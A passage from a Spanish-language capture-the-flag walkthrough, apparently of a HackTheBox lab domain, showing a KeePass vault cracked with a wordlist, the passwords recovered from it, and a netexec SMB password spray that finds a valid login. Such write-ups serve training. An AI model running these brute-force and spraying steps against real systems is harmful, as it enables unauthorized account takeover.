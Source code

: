                 5080575 blocks of size 4096. 1627510 blocks available
smb: \> 

--Password hallada por usuario HYH: Liverpool

# 8 -Keepass Brute (brute-force de la base KeePass KDBX4)

Comando (ejecución de la herramienta personalizada):
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt

Explicación: ejecuta keepass4brute contra el archivo recovery.kdbx usando el diccionario rockyou.txt para probar contraseñas.

Acción siguiente: abren el archivo con KeePassXC usando esa contraseña.
Explicación: ahora pueden ver las entradas y contraseñas guardadas dentro del archivo .kdbx.

Contraseñas encontradas (ejemplos dentro del KDBX):

HJKL2025!

Antman2025!

JamieLove2025!

ILY2025!

Steve2025!

Explicación: estas son credenciales almacenadas en la base; sirven para probar en otros servicios/usuarios del dominio.

# -9 Neteexec
[root@kali] /home/kali/Puppy  
❯ netexec smb 10.10.11.70 -u usernames.txt -p pass.txt                                                                                        ⏎
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)                                                                                                                                           
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\levi.james:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\ant.edwards:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\jamie.williams:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper_adm:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\levi.james:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 

Explicación: netexec prueba combinaciones de usuarios (archivo usernames.txt) y contraseñas (archivo pass.txt) contra SMB en la IP indicada, buscando logins válidos.
